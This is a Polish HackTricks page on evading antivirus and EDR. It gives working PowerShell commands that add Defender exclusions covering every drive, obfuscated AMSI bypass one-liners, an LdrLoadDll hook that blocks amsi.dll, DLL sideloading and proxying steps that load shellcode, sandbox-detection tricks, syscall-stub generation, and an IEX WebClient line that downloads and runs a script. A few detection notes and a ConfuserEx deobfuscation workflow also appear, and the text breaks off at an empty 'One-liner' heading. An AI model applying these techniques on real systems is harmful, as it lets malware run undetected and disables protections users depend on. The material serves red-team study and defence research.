




# Obejście ochrony antywirusowej (AV)

{{#include ../banners/hacktricks-training.md}}

**Ta strona została pierwotnie napisana przez** [**@m2rc_p**](https://twitter.com/m2rc_p)**!**

## Zatrzymanie Defender

- [defendnot](https://github.com/es3n1n/defendnot): Narzędzie do zatrzymywania działania Windows Defender.
- [no-defender](https://github.com/es3n1n/no-defender): Narzędzie do zatrzymywania działania Windows Defender poprzez podszywanie się pod inny program antywirusowy.
- [Wyłącz Defender, jeśli masz uprawnienia administratora](basic-powershell-for-pentesters/README.md)

### Przynęta UAC w stylu instalatora przed ingerencją w Defender

Publiczne loadery podszywające się pod cheaty do gier są często dostarczane jako niepodpisane instalatory Node.js/Nexe, które najpierw **proszą użytkownika o podniesienie uprawnień**, a dopiero potem wyłączają Defender. Przebieg jest prosty:

1. Sprawdź kontekst administracyjny za pomocą `net session`. Polecenie kończy się powodzeniem tylko wtedy, gdy wywołujący ma uprawnienia administratora, więc niepowodzenie oznacza, że loader działa jako standardowy użytkownik.
2. Natychmiast uruchom ponownie sam siebie z czasownikiem `RunAs`, aby wywołać oczekiwany monit zgody UAC, zachowując oryginalny wiersz poleceń.
```powershell
if (-not (net session 2>$null)) {
powershell -WindowStyle Hidden -Command "Start-Process cmd.exe -Verb RunAs -WindowStyle Hidden -ArgumentList '/c ""`<path_to_loader`>""'"
exit
}
```
Ofiary już wierzą, że instalują „cracked” software, więc monit jest zwykle akceptowany, dając malware uprawnienia potrzebne do zmiany policy Defendera.<sup>[[26]](#references)</sup>

### Całkowite wykluczenia `MpPreference` dla każdej litery dysku

Po uzyskaniu podwyższonych uprawnień łańcuchy w stylu GachiLoader maksymalizują ślepe punkty Defendera zamiast całkowicie wyłączać usługę. Loader najpierw kończy działanie watchdoga GUI (`taskkill /F /IM SecHealthUI.exe`), a następnie dodaje **niezwykle szerokie wykluczenia**, aby każdy profil użytkownika, katalog systemowy i dysk wymienny stały się niedostępne dla skanowania:
```powershell
$targets = @('C:\Users\', 'C:\ProgramData\', 'C:\Windows\')
Get-PSDrive -PSProvider FileSystem | ForEach-Object { $targets += $_.Root }
$targets | Sort-Object -Unique | ForEach-Object { Add-MpPreference -ExclusionPath $_ }
Add-MpPreference -ExclusionExtension '.sys'
```
Key observations:

- Pętla przechodzi przez każdy zamontowany system plików (D:\, E:\, pamięci USB itd.), więc **każdy przyszły payload zapisany w dowolnym miejscu na dysku zostanie zignorowany**.
- Wykluczenie rozszerzenia `.sys` jest działaniem przyszłościowym — atakujący zachowują możliwość późniejszego ładowania unsigned drivers bez ponownego modyfikowania Defendera.
- Wszystkie zmiany trafiają do `HKLM\SOFTWARE\Microsoft\Windows Defender\Exclusions`, co pozwala późniejszym etapom potwierdzić, że wykluczenia nadal obowiązują, lub rozszerzyć je bez ponownego wywoływania UAC.

Ponieważ żadna usługa Defendera nie zostaje zatrzymana, naiwne kontrole stanu nadal zgłaszają „antywirus aktywny”, mimo że inspekcja w czasie rzeczywistym nigdy nie obejmuje tych ścieżek.<sup>[[26]](#references)</sup>

## **AV Evasion Methodology**

Obecnie AVs używają różnych metod sprawdzania, czy plik jest złośliwy, w tym static detection, dynamic analysis, a w przypadku bardziej zaawansowanych EDRs — behavioural analysis.

### **Static detection**

Static detection polega na oznaczaniu znanych złośliwych strings lub arrays bajtów w pliku binarnym albo skrypcie, a także na wyodrębnianiu informacji z samego pliku (np. opisu pliku, nazwy firmy, digital signatures, ikony, checksum itd.). Oznacza to, że używanie znanych publicznych tools może ułatwić wykrycie, ponieważ prawdopodobnie zostały już przeanalizowane i oznaczone jako złośliwe. Istnieje kilka sposobów na obejście tego rodzaju detection:

- **Encryption**

Jeśli zaszyfrujesz binary, AV nie będzie w stanie wykryć twojego programu, ale będziesz potrzebować pewnego rodzaju loadera, który odszyfruje i uruchomi program w pamięci.

- **Obfuscation**

Czasami wystarczy zmienić kilka strings w binary lub skrypcie, aby przejść przez AV, ale w zależności od tego, co próbujesz obfuscate, może to być czasochłonne.

- **Custom tooling**

Jeśli opracujesz własne tools, nie będą istniały żadne znane bad signatures, ale wymaga to dużo czasu i wysiłku.

> [!TIP]
> Dobrym sposobem na sprawdzenie static detection w Windows Defender jest [ThreatCheck](https://github.com/rasta-mouse/ThreatCheck). Narzędzie zasadniczo dzieli plik na wiele segmentów, a następnie zleca Defenderowi przeskanowanie każdego z nich osobno. Dzięki temu może dokładnie wskazać, które strings lub bytes w twoim binary zostały oznaczone.

Zdecydowanie polecam zapoznać się z tą [YouTube playlist](https://www.youtube.com/playlist?list=PLj05gPj8rk_pkb12mDe4PgYZ5qPxhGKGf) na temat praktycznego AV Evasion.

### **Dynamic analysis**

Dynamic analysis ma miejsce wtedy, gdy AV uruchamia twój binary w sandboxie i obserwuje złośliwą aktywność (np. próbę odszyfrowania i odczytania haseł z przeglądarki, wykonanie minidump na LSASS itd.). Z tą częścią może być nieco trudniej pracować, ale oto kilka rzeczy, które możesz zrobić, aby ominąć sandboxy.

- **Sleep before execution** W zależności od implementacji może to być świetny sposób na obejście dynamic analysis AV. AVs mają bardzo mało czasu na skanowanie plików, aby nie przerywać pracy użytkownika, więc długie sleep mogą zakłócić analizę binaries. Problem polega na tym, że wiele sandboxów AV może po prostu pominąć sleep, zależnie od sposobu jego implementacji.
- **Checking machine's resources** Zwykle sandboxy mają do dyspozycji bardzo mało zasobów (np. < 2GB RAM), ponieważ w przeciwnym razie mogłyby spowalniać komputer użytkownika. Możesz też wykazać się kreatywnością, na przykład sprawdzając temperaturę CPU, a nawet prędkość obrotową wentylatorów — nie wszystko zostanie zaimplementowane w sandboxie.
- **Machine-specific checks** Jeśli chcesz zaatakować użytkownika, którego workstation jest dołączona do domeny „contoso.local”, możesz sprawdzić domenę komputera i zobaczyć, czy odpowiada określonej przez ciebie wartości. Jeśli nie, możesz zakończyć działanie programu.

Okazuje się, że computername w Microsoft Defender's Sandbox to HAL9TH, więc przed detonation możesz sprawdzić nazwę komputera w swoim malware. Jeśli nazwa odpowiada HAL9TH, oznacza to, że znajdujesz się w sandboxie Defendera, więc możesz zakończyć działanie programu.

<figure><figcaption><p>źródło: <a href="https://youtu.be/StSLxFbVz0M?t=1439">https://youtu.be/StSLxFbVz0M?t=1439</a></p></figcaption></figure>

Kilka innych naprawdę dobrych wskazówek od [@mgeeky](https://twitter.com/mariuszbit) dotyczących omijania sandboxów

<figure><figcaption><p><a href="https://discord.com/servers/red-team-vx-community-1012733841229746240">Red Team VX Discord</a> kanał #malware-dev</p></figcaption></figure>

Jak wspomnieliśmy wcześniej w tym poście, **public tools** w końcu **zostaną wykryte**, więc powinieneś zadać sobie następujące pytanie:

Na przykład, jeśli chcesz wykonać dump LSASS, **czy naprawdę musisz używać mimikatz**? A może mógłbyś użyć innego, mniej znanego projektu, który również wykonuje dump LSASS?

Prawdopodobnie właściwą odpowiedzią jest ta druga opcja. Biorąc mimikatz za przykład, jest to prawdopodobnie jeden z najbardziej, jeśli nie najbardziej, oznaczanych pieces of malware przez AVs i EDRs. Sam projekt jest bardzo interesujący, ale jednocześnie jego używanie w celu omijania AVs to koszmar, więc po prostu poszukaj alternatives do tego, co próbujesz osiągnąć.

> [!TIP]
> Podczas modyfikowania payloads w celu evasion upewnij się, że **wyłączysz automatic sample submission** w Defenderze i proszę, naprawdę, **NIE UPLOADUJ DO VIRUSTOTAL**, jeśli twoim celem jest osiągnięcie evasion w dłuższej perspektywie. Jeśli chcesz sprawdzić, czy twój payload jest wykrywany przez konkretne AV, zainstaluj je na VM, spróbuj wyłączyć automatic sample submission i testuj je tam, aż będziesz zadowolony z rezultatu.

## EXEs vs DLLs

Gdy tylko jest to możliwe, zawsze **priorytetowo traktuj używanie DLLs w celu evasion**. Z mojego doświadczenia wynika, że pliki DLL są zazwyczaj **znacznie rzadziej wykrywane** i analizowane, więc w niektórych przypadkach jest to bardzo prosty trik pozwalający uniknąć detection (oczywiście jeśli twój payload może działać jako DLL).

Jak widać na tym obrazie, DLL Payload z Havoc ma detection rate 4/26 w antiscan.me, podczas gdy EXE payload ma detection rate 7/26.

<figure><figcaption><p>porównanie w antiscan.me zwykłego Havoc EXE payload ze zwykłym Havoc DLL</p></figcaption></figure>

Teraz pokażemy kilka trików, których możesz użyć z plikami DLL, aby uzyskać znacznie większą stealth.

## DLL Sideloading & Proxying

**DLL Sideloading** wykorzystuje kolejność wyszukiwania DLL używaną przez loader, umieszczając aplikację ofiary i złośliwy payload (lub payloads) obok siebie.

Możesz sprawdzić, które programy są podatne na DLL Sideloading, używając [Siofra](https://github.com/Cybereason/siofra) oraz następującego skryptu powershell:
```bash
Get-ChildItem -Path "C:\Program Files\" -Filter *.exe -Recurse -File -Name| ForEach-Object {
$binarytoCheck = "C:\Program Files\" + $_
C:\Users\user\Desktop\Siofra64.exe --mode file-scan --enum-dependency --dll-hijack -f $binarytoCheck
}
```
To polecenie wyświetli listę programów podatnych na DLL hijacking w lokalizacji "C:\Program Files\\" oraz pliki DLL, które próbują załadować.

Zdecydowanie zalecam, abyś samodzielnie **wyszukiwał programy podatne na DLL Hijacking/Sideloading**. Technika ta, prawidłowo zastosowana, jest dość stealthy, ale jeśli użyjesz publicznie znanych programów podatnych na DLL Sideloading, możesz zostać łatwo wykryty.

Samo umieszczenie złośliwej biblioteki DLL o nazwie oczekiwanej przez program nie spowoduje załadowania payloadu, ponieważ program oczekuje określonych funkcji w tej bibliotece DLL. Aby rozwiązać ten problem, użyjemy innej techniki o nazwie **DLL Proxying/Forwarding**.

**DLL Proxying** przekierowuje wywołania wykonywane przez program z biblioteki proxy (i złośliwej) DLL do oryginalnej biblioteki DLL, zachowując funkcjonalność programu i umożliwiając obsługę wykonania payloadu.

Użyję projektu [SharpDLLProxy](https://github.com/Flangvik/SharpDllProxy) autorstwa [@flangvik](https://twitter.com/Flangvik/)

Oto kroki, które wykonałem:
```
1. Find an application vulnerable to DLL Sideloading (siofra or using Process Hacker)
2. Generate some shellcode (I used Havoc C2)
3. (Optional) Encode your shellcode using Shikata Ga Nai (https://github.com/EgeBalci/sgn)
4. Use SharpDLLProxy to create the proxy dll (.\SharpDllProxy.exe --dll .\mimeTools.dll --payload .\demon.bin)
```
Ostatnie polecenie da nam 2 pliki: szablon kodu źródłowego DLL oraz oryginalną bibliotekę DLL ze zmienioną nazwą.

<figure><figcaption></figcaption></figure>
```
5. Create a new visual studio project (C++ DLL), paste the code generated by SharpDLLProxy (Under output_dllname/dllname_pragma.c) and compile. Now you should have a proxy dll which will load the shellcode you've specified and also forward any calls to the original DLL.
```
Oto wyniki:

<figure><figcaption></figcaption></figure>

Zarówno nasz shellcode (zakodowany za pomocą [SGN](https://github.com/EgeBalci/sgn)), jak i proxy DLL mają wskaźnik wykrywania 0/26 w [antiscan.me](https://antiscan.me)! Można uznać to za sukces.

<figure><figcaption></figcaption></figure>

> [!TIP]
> **Gorąco polecam** obejrzenie [VOD-a S3cur3Th1sSh1t na Twitchu](https://www.twitch.tv/videos/1644171543) dotyczącego DLL Sideloading, a także [filmu ippsec](https://www.youtube.com/watch?v=3eROsG_WNpE), aby dokładniej poznać omawiane zagadnienia.

### Nadużywanie Forwarded Exports (ForwardSideLoading)

Moduły Windows PE mogą eksportować funkcje, które są w rzeczywistości „forwarders”: zamiast wskazywać kod, wpis eksportu zawiera ciąg ASCII w postaci `TargetDll.TargetFunc`. Gdy caller rozwiązuje eksport, Windows loader:

- Załaduje `TargetDll`, jeśli nie jest jeszcze załadowany
- Rozwiąże `TargetFunc` z tego modułu

Najważniejsze zachowania:
- Jeśli `TargetDll` jest KnownDLL, zostanie dostarczony z chronionej przestrzeni nazw KnownDLLs (np. ntdll, kernelbase, ole32).<sup>[[15]](#references)</sup>
- Jeśli `TargetDll` nie jest KnownDLL, zostanie użyta standardowa kolejność wyszukiwania DLL, która obejmuje katalog modułu wykonującego forward resolution.

Umożliwia to zastosowanie pośredniego mechanizmu sideloadingu: należy znaleźć podpisaną DLL eksportującą funkcję przekierowaną do nazwy modułu niebędącego KnownDLL, a następnie umieścić tę podpisaną DLL razem z kontrolowaną przez atakującego DLL o nazwie dokładnie takiej jak nazwa przekierowanego modułu. Gdy forwarded export zostanie wywołany, loader rozwiąże forward i załaduje Twoją DLL z tego samego katalogu, wykonując jej DllMain.<sup>[[13]](#references)</sup>

Przykład zaobserwowany w Windows 11:
```
keyiso.dll KeyIsoSetAuditingInterface -> NCRYPTPROV.SetAuditingInterface
```
`NCRYPTPROV.dll` nie jest KnownDLL, więc jest wyszukiwana zgodnie ze standardową kolejnością wyszukiwania.

PoC (copy-paste):
1) Skopiuj podpisaną systemową bibliotekę DLL do folderu z możliwością zapisu
```
copy C:\Windows\System32\keyiso.dll C:\test\
```
2) Umieść złośliwy `NCRYPTPROV.dll` w tym samym folderze. Minimalna funkcja DllMain wystarczy do uzyskania wykonania kodu; nie musisz implementować przekazywanej funkcji, aby wywołać DllMain.
```c
// x64: x86_64-w64-mingw32-gcc -shared -o NCRYPTPROV.dll ncryptprov.c
#include <windows.h>
BOOL WINAPI DllMain(HINSTANCE hinst, DWORD reason, LPVOID reserved){
if (reason == DLL_PROCESS_ATTACH){
HANDLE h = CreateFileA("C\\\\test\\\\DLLMain_64_DLL_PROCESS_ATTACH.txt", GENERIC_WRITE, 0, NULL, CREATE_ALWAYS, FILE_ATTRIBUTE_NORMAL, NULL);
if(h!=INVALID_HANDLE_VALUE){ const char *m = "hello"; DWORD w; WriteFile(h,m,5,&w,NULL); CloseHandle(h);}
}
return TRUE;
}
```
3) Uruchom przekierowanie za pomocą podpisanego LOLBin:
```
rundll32.exe C:\test\keyiso.dll, KeyIsoSetAuditingInterface
```
Zaobserwowane działanie:
- rundll32 (signed) ładuje side-by-side `keyiso.dll` (signed)
- Podczas rozwiązywania `KeyIsoSetAuditingInterface` loader podąża za forwardem do `NCRYPTPROV.SetAuditingInterface`
- loader następnie ładuje `NCRYPTPROV.dll` z `C:\test` i wykonuje jego `DllMain`
- Jeśli `SetAuditingInterface` nie jest zaimplementowane, błąd „missing API” pojawi się dopiero po wykonaniu `DllMain`

Wskazówki dotyczące wyszukiwania:
- Skup się na forwarded exports, w których target module nie jest KnownDLL. KnownDLLs są wymienione w `HKLM\SYSTEM\CurrentControlSet\Control\Session Manager\KnownDLLs`.
- Możesz wyliczać forwarded exports za pomocą narzędzi takich jak:
```
dumpbin /exports C:\Windows\System32\keyiso.dll
# forwarders appear with a forwarder string e.g., NCRYPTPROV.SetAuditingInterface
```
- Zobacz inventory Windows 11 forwarderów, aby wyszukać kandydatów: https://hexacorn.com/d/apis_fwd.txt<sup>[[14]](#references)</sup>

Pomysły na detekcję/obronę:
- Monitoruj LOLBins (np. rundll32.exe) ładujące podpisane DLL z nietypowych dla systemu ścieżek, a następnie ładujące z tego katalogu non-KnownDLLs o tej samej nazwie bazowej
- Generuj alerty dla łańcuchów procesów/modułów, takich jak: `rundll32.exe` → `keyiso.dll` spoza katalogów systemowych → `NCRYPTPROV.dll` w ścieżkach zapisywalnych przez użytkownika
- Wymuszaj zasady integralności kodu (WDAC/AppLocker) i zabroń uprawnień write+execute w katalogach aplikacji

## [**Freeze**](https://github.com/optiv/Freeze)

`Freeze to payload toolkit do omijania EDRs przy użyciu suspended processes, direct syscalls i alternatywnych metod wykonania`

Możesz użyć Freeze do załadowania i wykonania swojego shellcode w ukryty sposób.
```
Git clone the Freeze repo and build it (git clone https://github.com/optiv/Freeze.git && cd Freeze && go build Freeze.go)
1. Generate some shellcode, in this case I used Havoc C2.
2. ./Freeze -I demon.bin -encrypt -O demon.exe
3. Profit, no alerts from defender
```
<figure><figcaption></figcaption></figure>

> [!TIP]
> Evasion to ciągła gra w kotka i myszkę — to, co działa dzisiaj, jutro może zostać wykryte, dlatego nigdy nie polegaj tylko na jednym narzędziu; jeśli to możliwe, spróbuj łączyć wiele technik evasion.

## Direct/Indirect Syscalls & SSN Resolution (SysWhispers4)

EDR często umieszczają **user-mode inline hooks** na stubach syscall w `ntdll.dll`. Aby ominąć te hooki, możesz wygenerować **direct** lub **indirect** syscall stubs, które ładują poprawny **SSN** (System Service Number) i przechodzą do trybu kernel mode bez wykonywania hookowanego punktu wejścia eksportu.<sup>[[32]](#references)</sup>

**Opcje wywołania:**
- **Direct (embedded)**: emituje instrukcję `syscall`/`sysenter`/`SVC #0` w wygenerowanym stubie (bez wywoływania eksportu `ntdll`).
- **Indirect**: skacze do istniejącego gadżetu `syscall` wewnątrz `ntdll`, dzięki czemu przejście do kernela wygląda tak, jakby pochodziło z `ntdll` (przydatne w celu ominięcia heurystyk); **randomized indirect** wybiera gadżet z puli przy każdym wywołaniu.
- **Egg-hunt**: unika umieszczania statycznej sekwencji opcode `0F 05` na dysku; wyszukuje sekwencję syscall w runtime.

**Odporne na hooki strategie rozwiązywania SSN:**
- **FreshyCalls (VA sort)**: wnioskuje SSN, sortując stuby syscall według adresu wirtualnego zamiast odczytywać bajty stubów.
- **SyscallsFromDisk**: mapuje czysty `\KnownDlls\ntdll.dll`, odczytuje SSN z jego `.text`, a następnie go odmapowuje (omija wszystkie hooki znajdujące się w pamięci).
- **RecycledGate**: łączy wnioskowanie SSN na podstawie sortowania VA z walidacją opcode, gdy stub jest czysty; w przypadku hooka przełącza się na wnioskowanie na podstawie VA.
- **HW Breakpoint**: ustawia DR0 na instrukcji `syscall` i używa VEH do przechwycenia SSN z `EAX` w runtime, bez parsowania zahookowanych bajtów.

Przykładowe użycie SysWhispers4:
```bash
# Indirect syscalls + hook-resistant resolution
python syswhispers.py --preset injection --method indirect --resolve recycled

# Resolve SSNs from a clean on-disk ntdll
python syswhispers.py --preset injection --method indirect --resolve from_disk --unhook-ntdll

# Hardware breakpoint SSN extraction
python syswhispers.py --functions NtAllocateVirtualMemory,NtCreateThreadEx --resolve hw_breakpoint
```
## AMSI (Anti-Malware Scan Interface)

AMSI został utworzony, aby zapobiegać "[fileless malware](https://en.wikipedia.org/wiki/Fileless_malware)". Początkowo AV potrafiły skanować wyłącznie **pliki na dysku**, więc jeśli udało się uruchomić payloady **bezpośrednio w pamięci**, AV nie mógł nic zrobić, aby temu zapobiec, ponieważ nie miał wystarczającej widoczności.

Funkcja AMSI jest zintegrowana z następującymi komponentami systemu Windows.

- User Account Control, czyli UAC (podnoszenie uprawnień EXE, COM, MSI lub instalacji ActiveX)
- PowerShell (skrypty, użycie interaktywne i dynamiczna ewaluacja kodu)
- Windows Script Host (wscript.exe i cscript.exe)
- JavaScript i VBScript
- Makra Office VBA

Umożliwia rozwiązaniom antywirusowym inspekcję działania skryptów poprzez udostępnianie ich zawartości w formie zarówno niezaszyfrowanej, jak i nieobfuskowanej.

Uruchomienie `IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1')` wywoła następujący alert w Windows Defender.

<figure><figcaption></figcaption></figure>

Zwróć uwagę, że dodaje prefiks `amsi:`, a następnie ścieżkę do pliku wykonywalnego, z którego uruchomiono skrypt — w tym przypadku powershell.exe.

Nie zapisaliśmy żadnego pliku na dysku, ale mimo to zostaliśmy wykryci w pamięci z powodu AMSI.

Co więcej, począwszy od **.NET 4.8**, kod C# również jest przetwarzany przez AMSI. Dotyczy to nawet `Assembly.Load(byte[])`, używanego do ładowania kodu wykonywanego w pamięci. Dlatego podczas wykonywania kodu w pamięci zaleca się używanie niższych wersji .NET (takich jak 4.7.2 lub starsze), jeśli chcesz ominąć AMSI.

Istnieje kilka sposobów na ominięcie AMSI:

- **Obfuscation**

Ponieważ AMSI działa głównie na podstawie detekcji statycznych, modyfikowanie skryptów, które próbujesz załadować, może być dobrym sposobem na uniknięcie wykrycia.

AMSI potrafi jednak deobfuskować skrypty, nawet jeśli mają wiele warstw, więc obfuscation może być złym rozwiązaniem w zależności od sposobu jej zastosowania. Sprawia to, że ominięcie detekcji nie jest proste. Czasami wystarczy jednak zmienić kilka nazw zmiennych i problem znika, więc zależy to od tego, jak dużo elementów zostało oznaczonych jako podejrzane.

- **AMSI Bypass**

Ponieważ AMSI jest implementowane poprzez załadowanie DLL do procesu powershell (a także cscript.exe, wscript.exe itd.), można łatwo manipulować tym mechanizmem nawet jako użytkownik bez uprawnień administracyjnych. Z powodu tej wady implementacji AMSI badacze znaleźli wiele sposobów na ominięcie skanowania AMSI.

**Forcing an Error**

Wymuszenie niepowodzenia inicjalizacji AMSI (`amsiInitFailed`) spowoduje, że dla bieżącego procesu nie zostanie rozpoczęte skanowanie. Początkowo zostało to ujawnione przez [Matt Graeber](https://twitter.com/mattifestation), a Microsoft opracował sygnaturę mającą zapobiegać szerszemu wykorzystywaniu tej metody.
```bash
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)
```
Wystarczyła jedna linia kodu powershell, aby uczynić AMSI bezużytecznym dla bieżącego procesu powershell. Ta linia została oczywiście wykryta przez samo AMSI, dlatego konieczna jest pewna modyfikacja, aby można było użyć tej techniki.

Oto zmodyfikowany bypass AMSI, który zaczerpnąłem z tego [Github Gist](https://gist.github.com/r00t-3xp10it/a0c6a368769eec3d3255d4814802b5db).
```bash
Try{#Ams1 bypass technic nº 2
$Xdatabase = 'Utils';$Homedrive = 'si'
$ComponentDeviceId = "N`onP" + "ubl`ic" -join ''
$DiskMgr = 'Syst+@.M£n£g' + 'e@+nt.Auto@' + '£tion.A' -join ''
$fdx = '@ms' + '£In£' + 'tF@£' + 'l+d' -Join '';Start-Sleep -Milliseconds 300
$CleanUp = $DiskMgr.Replace('@','m').Replace('£','a').Replace('+','e')
$Rawdata = $fdx.Replace('@','a').Replace('£','i').Replace('+','e')
$SDcleanup = [Ref].Assembly.GetType(('{0}m{1}{2}' -f $CleanUp,$Homedrive,$Xdatabase))
$Spotfix = $SDcleanup.GetField($Rawdata,"$ComponentDeviceId,Static")
$Spotfix.SetValue($null,$true)
}Catch{Throw $_}
```
Keep in mind, that this will probably get flagged once this post comes out, so you should not publish any code if your plan is staying undetected.

**Memory Patching**

This technique was initially discovered by [@RastaMouse](https://twitter.com/_RastaMouse/) and it involves finding address for the "AmsiScanBuffer" function in amsi.dll (responsible for scanning the user-supplied input) and overwriting it with instructions to return the code for E_INVALIDARG, this way, the result of the actual scan will return 0, which is interpreted as a clean result.

> [!TIP]
> Przeczytaj [https://rastamouse.me/memory-patching-amsi-bypass/](https://rastamouse.me/memory-patching-amsi-bypass/) for a more detailed explanation.

There are also many other techniques used to bypass AMSI with powershell, check out [**tę stronę**](basic-powershell-for-pentesters/index.html#amsi-bypass) and [**to repozytorium**](https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell) to learn more about them.

### Blocking AMSI by preventing amsi.dll load (LdrLoadDll hook)

AMSI is initialised only after `amsi.dll` is loaded into the current process. A robust, language‑agnostic bypass is to place a user‑mode hook on `ntdll!LdrLoadDll` that returns an error when the requested module is `amsi.dll`. As a result, AMSI never loads and no scans occur for that process.<sup>[[23]](#references)</sup>

Implementation outline (x64 C/C++ pseudocode):
```c
#include <windows.h>
#include <winternl.h>

typedef NTSTATUS (NTAPI *pLdrLoadDll)(PWSTR, ULONG, PUNICODE_STRING, PHANDLE);
static pLdrLoadDll realLdrLoadDll;

NTSTATUS NTAPI Hook_LdrLoadDll(PWSTR path, ULONG flags, PUNICODE_STRING module, PHANDLE handle){
if (module && module->Buffer){
UNICODE_STRING amsi; RtlInitUnicodeString(&amsi, L"amsi.dll");
if (RtlEqualUnicodeString(module, &amsi, TRUE)){
// Pretend the DLL cannot be found → AMSI never initialises in this process
return STATUS_DLL_NOT_FOUND; // 0xC0000135
}
}
return realLdrLoadDll(path, flags, module, handle);
}

void InstallHook(){
HMODULE ntdll = GetModuleHandleW(L"ntdll.dll");
realLdrLoadDll = (pLdrLoadDll)GetProcAddress(ntdll, "LdrLoadDll");
// Apply inline trampoline or IAT patching to redirect to Hook_LdrLoadDll
// e.g., Microsoft Detours / MinHook / custom 14‑byte jmp thunk
}
```
Notatki
- Działa w PowerShell, WScript/CScript oraz niestandardowych loaderach (czyli we wszystkim, co w przeciwnym razie załadowałoby AMSI).
- Połącz z przekazywaniem skryptów przez stdin (`PowerShell.exe -NoProfile -NonInteractive -Command -`), aby uniknąć długich artefaktów wiersza poleceń.
- Stosowane w loaderach uruchamianych przez LOLBins (np. `regsvr32` wywołujący `DllRegisterServer`).

Narzędzie **[https://github.com/Flangvik/AMSI.fail](https://github.com/Flangvik/AMSI.fail)** również generuje skrypt do ominięcia AMSI.
Narzędzie **[https://amsibypass.com/](https://amsibypass.com/)** również generuje skrypt do ominięcia AMSI, który unika sygnatur dzięki losowym, definiowanym przez użytkownika funkcjom, zmiennym i wyrażeniom znakowym oraz stosuje losową wielkość liter w słowach kluczowych PowerShell, aby uniknąć sygnatur.

**Usuń wykrytą sygnaturę**

Możesz użyć narzędzia takiego jak **[https://github.com/cobbr/PSAmsi](https://github.com/cobbr/PSAmsi)** i **[https://github.com/RythmStick/AMSITrigger](https://github.com/RythmStick/AMSITrigger)**, aby usunąć wykrytą sygnaturę AMSI z pamięci bieżącego procesu. Narzędzie skanuje pamięć bieżącego procesu w poszukiwaniu sygnatury AMSI, a następnie nadpisuje ją instrukcjami NOP, skutecznie usuwając ją z pamięci.

**Produkty AV/EDR korzystające z AMSI**

Listę produktów AV/EDR korzystających z AMSI znajdziesz w **[https://github.com/subat0mik/whoamsi](https://github.com/subat0mik/whoamsi)**.

**Użyj wersji Powershell 2**
Jeśli używasz PowerShell w wersji 2, AMSI nie zostanie załadowane, więc możesz uruchamiać skrypty bez skanowania przez AMSI. Możesz zrobić to tak:
```bash
powershell.exe -version 2
```
## Logowanie PS

Logowanie PowerShell to funkcja umożliwiająca rejestrowanie wszystkich poleceń PowerShell wykonywanych w systemie. Może to być przydatne do celów audytu i rozwiązywania problemów, ale może również stanowić **problem dla attackerów, którzy chcą uniknąć wykrycia**.

Aby ominąć logowanie PowerShell, możesz użyć następujących technik:

- **Wyłącz PowerShell Transcription i Module Logging**: Możesz w tym celu użyć narzędzia takiego jak [https://github.com/leechristensen/Random/blob/master/CSharp/DisablePSLogging.cs](https://github.com/leechristensen/Random/blob/master/CSharp/DisablePSLogging.cs).
- **Użyj PowerShell w wersji 2**: Jeśli używasz PowerShell w wersji 2, AMSI nie zostanie załadowane, więc możesz uruchamiać swoje skrypty bez skanowania przez AMSI. Możesz to zrobić za pomocą: `powershell.exe -version 2`
- **Użyj niezarządzanej sesji PowerShell**: Użyj [UnmanagedPowerShell](https://github.com/leechristensen/UnmanagedPowerShell), aby uruchomić PowerShell bez uruchamiania `powershell.exe` (podejście używane przez `powerpick` w Cobalt Strike). Omija to mechanizmy kontroli powiązane konkretnie z procesem `powershell.exe`, ale samo w sobie nie wyłącza AMSI, Script Block Logging ani wszystkich innych zabezpieczeń PowerShell; zakres ochrony zależy od runtime'u i implementacji hosta.


## Obfuskacja

> [!TIP]
> Kilka technik obfuskacji opiera się na szyfrowaniu danych, co zwiększy entropię pliku binarnego i ułatwi AV oraz EDR wykrycie go. Zachowaj ostrożność i ewentualnie stosuj szyfrowanie tylko do określonych sekcji kodu, które są wrażliwe lub muszą zostać ukryte.

### Deobfuskacja plików binarnych .NET chronionych przez ConfuserEx

Podczas analizowania malware używającego ConfuserEx 2 (lub komercyjnych forków) często można napotkać kilka warstw ochrony, które blokują dekompilatory i sandboxy. Poniższy workflow niezawodnie **przywraca niemal oryginalny IL**, który następnie można zdekompilować do C# w narzędziach takich jak dnSpy lub ILSpy.<sup>[[10]](#references)</sup>

1. Usunięcie ochrony przed modyfikacją – ConfuserEx szyfruje każde *ciało metody* i odszyfrowuje je wewnątrz statycznego konstruktora (`<Module>.cctor`) *modułu*. Modyfikuje również sumę kontrolną PE, więc każda zmiana spowoduje awarię pliku binarnego. Użyj **AntiTamperKiller**, aby zlokalizować zaszyfrowane tabele metadanych, odzyskać klucze XOR i przepisać oczyszczony assembly:
```bash
# https://github.com/wwh1004/AntiTamperKiller
python AntiTamperKiller.py Confused.exe Confused.clean.exe
```
Dane wyjściowe zawierają 6 parametrów ochrony przed modyfikacją (`key0-key3`, `nameHash`, `internKey`), które mogą być przydatne podczas tworzenia własnego unpackera.

2. Odzyskiwanie symboli / przepływu sterowania – przekaż *oczyszczony* plik do **de4dot-cex** (forka de4dot obsługującego ConfuserEx).
```bash
de4dot-cex -p crx Confused.clean.exe -o Confused.de4dot.exe
```
Flagi:
• `-p crx` – wybiera profil ConfuserEx 2
• de4dot cofnie spłaszczanie przepływu sterowania, przywróci oryginalne przestrzenie nazw, klasy i nazwy zmiennych oraz odszyfruje stałe stringi.

3. Usunięcie wywołań proxy – ConfuserEx zastępuje bezpośrednie wywołania metod lekkimi wrapperami (tzw. *proxy calls*), aby dodatkowo utrudnić dekompilację. Usuń je za pomocą **ProxyCall-Remover**:
```bash
ProxyCall-Remover.exe Confused.de4dot.exe Confused.fixed.exe
```
Po tym kroku powinieneś zobaczyć normalne API .NET, takie jak `Convert.FromBase64String` lub `AES.Create()`, zamiast nieprzejrzystych funkcji wrapperów (`Class8.smethod_10`, …).

4. Ręczne czyszczenie – uruchom wynikowy plik binarny w dnSpy, wyszukaj duże bloby Base64 lub użycie `RijndaelManaged`/`TripleDESCryptoServiceProvider`, aby zlokalizować właściwy payload. Malware często przechowuje go jako tablicę bajtów zakodowaną w formacie TLV, inicjalizowaną wewnątrz `<Module>.byte_0`.

Powyższy łańcuch przywraca przepływ wykonywania **bez konieczności uruchamiania złośliwego sample'a** – jest to przydatne podczas pracy na odizolowanej stacji roboczej.

> 🛈  ConfuserEx tworzy custom attribute o nazwie `ConfusedByAttribute`, którego można użyć jako IOC do automatycznego triage'owania sampli.

#### One-liner
```bash
